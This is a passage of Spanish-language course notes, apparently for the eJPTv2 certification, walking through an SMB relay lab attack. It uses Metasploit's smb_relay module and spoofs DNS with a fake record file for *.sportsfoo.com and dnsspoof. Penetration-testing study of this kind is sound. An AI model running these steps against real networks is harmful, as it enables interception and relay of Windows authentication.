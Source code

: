 Vamos a configurar este ataque utilizando un módulo de Metasploit:

```bash
use exploit/windows/smb/smb_relay
set SRVHOST <IP_atacante>
set LHOST <IP_atacante>
set SMBHOST <IP_Target>
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2073.png)

Ahora vamos a necesitar configurar una suplantación de DNS para redirigir a la víctima a nuestro sistema Kali cada vez que haya una conexión SMB a cualquier host en el dominio. En este caso el dominio lo hacemos como .com. Entonces, abrimos una terminal nueva y comenzamos creando un archivo que emula un archivo que contiene registros DNS. Lo hacemos de la siguiente forma:

```bash
echo "<IP_atacante> *.sportsfoo.com" > dns
# Indica que la IP atacante puede resolver cualquier dominio .sportsfoo.com
# Es el dominio del servidor que nos interesa.
```

Ahora vamos a usar DNS spoof a través de nuestra interface eth1 y el archivo que contiene el registro DNS. Esto, con el archivo DNS falso que hemos creado, nos permitirá saber dónde se encuentran todas las solicitudes .sportsfood. Para esto, introducimos el siguiente comando:

```bash
dnsspoof -i eth1 -f dns
```

Esto queda a la escucha en la interfaz eth1.
